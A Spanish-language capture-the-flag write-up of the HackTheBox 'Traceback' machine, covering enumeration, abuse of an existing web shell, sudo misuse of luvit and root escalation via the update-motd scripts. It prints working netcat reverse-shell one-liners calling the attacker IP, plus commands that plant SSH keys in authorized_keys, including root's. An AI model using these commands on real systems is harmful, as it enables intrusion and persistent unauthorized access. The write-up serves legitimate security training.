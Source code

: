 ```yaml
---
title: HTB-TRACEBACK
author: Christian Gutierrez
date: 2020-11-19 14:10:00 -0500
categories: [HackTheBox, Medium]
tags: [HTB, SSH, NodeJS]
image: /assets/htb/01_traceback/portada.PNG
---
```


## Decripción del entorno
- <span style="color:blue">Atacante</span>
    - OS: Kali Linux
    - IP: 10.10.15.14
- <span style="color:green">Maquina Objetivo</span>
    - OS: Linux
    - IP: 10.10.10.181
    - Dificultad: 4.8/10 | **Medium**
    - URL: [**TraceBack**](https://www.hackthebox.eu/home/machines/profile/233)

## Enumeración
Se realiza la enumeración habitual para el reconocimiento e identificación de los puertos abiertos en el sistema: 
```console
$ nmap -sS -sV -sC -oN nmap_traceback 10.10.10.181
```
![Escaneo con Nmap](/assets/htb/01_traceback/01_nmap_scan.png)
_Resultado escaneo con nmap_

Se accede al puerto 80 y se infiere por contexto que el servidor ya tiene un WebShell, la cual hay que utilizar para continuar con el proceso de explotación. 
![Puerto 80](/assets/htb/01_traceback/02_puerto_80.png)
_Pagina web desplegada en el puerto 80_

Se saca un listado de las WebShell más conocidas <https://github.com/TheBinitGhimire/Web-Shells>, y se realiza un barrido utilizando **wFuzz** para identificar si alguna se encuentra persistente en el servidor: 
```console
$ wfuzz -w htb/01_traceback/webshells.dict --hc 404 http://10.10.10.181/FUZZ
```
Resultado: 
- cmd.php
    - Parametro: ?cmd=**COMANDO**
- smevk.php
    - User: **admin**
    - Password: **admin**

Una vez identificadas, se procede a validar el usuario y los privilegios que se tienen para la ejecución de comandos.
![WebShell Básica](/assets/htb/01_traceback/03_cmd_comandos_basicos.png)
_Usando shell cmd.php con comandos pwd, whoami e ifconfig_

### Usuarios de bajos privilegios
- webadmin [**Hacked**]
- sysadmin

Por medio de los Sudoers desde el usuario **webadmin** vemos que tenemos permisos para ejecutar un comando como el usuario **sysadmin**:
```console
$ sudo -l 
/home/sysadmin/luvit
```
De lo anterior se identifica que [luvit](https://luvit.io/) corresponde a un servicio **NodeJS** para el lenguaje **Lua** por lo que conserva su sintaxis y además es posible utilizarlo para ejecutar scripts **.lua** diseñados por nosotros; vamos a utilizar el metodo `os.execute()` que nos permite ejecutar comandos de sistema operativo en [LUA](https://stackoverflow.com/questions/13270346/lua-os-execute-does-not-work)

## Explotación

Una vez identificado el vector de ataque, vamos a utilizar una Shell reversa con **nc** a través de la ejecución privilegiada de `/home/sysadmin/luvit`, por lo que creamos el siguiente archivo **lua** en el directorio `/tmp/`:

```lua
os.execute("rm /tmp/cdf;mkfifo /tmp/cdf;cat /tmp/cdf|/bin/sh -i 2>&1|nc 10.10.15.14 4545 >/tmp/cdf")
```

Ejecutamos el archivo con los privilegios de **sysadmin** de la siguiente manera: 
```console
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/d.lua
```
Recibimos la conexión inversa mediante **NetCat**:
```console
$ nc -nvlp 4545
```
![Reverse Shell](/assets/htb/01_traceback/04_reverse_shell.png)
_Reverse Shell con privilegios del usuario sysadmin_

Aunque ya tenemos la shell con los privilegios **Sysadmin** que nos permiten la lectura de la flag `user.txt`, es más comodo poder conectarnos directamente al servicio SSH (22), para así tener más estabilidad y propiedades en la consola; para lograr esto, debemos agregar nuestra **llave pública SSH** al archivo `authorized_keys` del servidor victima, de esta manera, sin proporcionar credenciales podemos acceder a este. 
```console
$ echo “test” >> authorized_keys
Permission denied
```
Como no podemos realizarlo desde la shell que tenemos actualmente, creamos otro archivo **.lua** que cambie los privilegios del archivo "" y agregue nuestra key: 
```lua
file = io.open("/home/sysadmin/.ssh/authorized_keys", "w")
file:write("ssh-rsa AAAAB3NzaC1yc2EAAAADA/.../zWoMYWXUF8ZIOQp0= csl@support")
file:close()
```
Ejecutamos el nuevo script **LUA**: 
```console
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/d2.lua
```
Y accedemos al servidor mediante **SSH**: 
```console
$ ssh sysadmin@10.10.10.181
```
![SSH](/assets/htb/01_traceback/05_ssh_access.png)
_Acceso por SSH al usuario Sysadmin_

## Elevación de privilegios

Revisando los procesos en ejecución del sistema `ps aux`, vemos que el usuario root realiza la ejecución recurrente del siguiente comando. 
```console
$ /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```
Lo que inicialmente parece una copia de archivos normal entre directorios cada 30 segundos, nos revela una pista en los permisos del directorio `/etc/update-motd.d/`:
![SSH](/assets/htb/01_traceback/06_priv_etc_update.png)
_Permisos del directorio /etc/update-motd.d/_

Y recordemos que dicho directorio corresponde a los scripts de personalización de inicio o acceso mediante **SSH**, así pues, cada uno de esos script’s mostrará información o será ejecutado por el usuario **root** cuando alguien se conecta mediante **SSH**. De esta manera, si logramos algún cambio en estos scripts, lo podremos activar mediante el acceso a SSH que tenemos del usuario **Sysadmin**. 

Considerando lo anterior, agregamos el comando para que cuando se ejecute nos permita una conexión inversa a nuestro equipo, por el puerto 4545. 
```console
$ echo "rm /tmp/cdf;mkfifo /tmp/cdf;cat /tmp/cdf|/bin/sh -i 2>&1|nc 10.10.15.14 4545 >/tmp/cdf" >> /etc/update-motd.d/00-header
```
Una vez realizado, accedemos al servicio **SSH** con el usuario **Sysadmin** (para activa nuestro payload) y a su vez, recibimos la conexión inversa en nuestro equipo, esta vez con privilegios de **root**. 

Otra forma de acceder sin utilizar la shell reversa, implicaría el mismo principio de habilitar nuestras llaves en el servicio **SSH** del usuario **root**: 

```console
sysadmin@traceback:/etc/update-motd.d$ echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> 00-header 
```

Bytez :alien: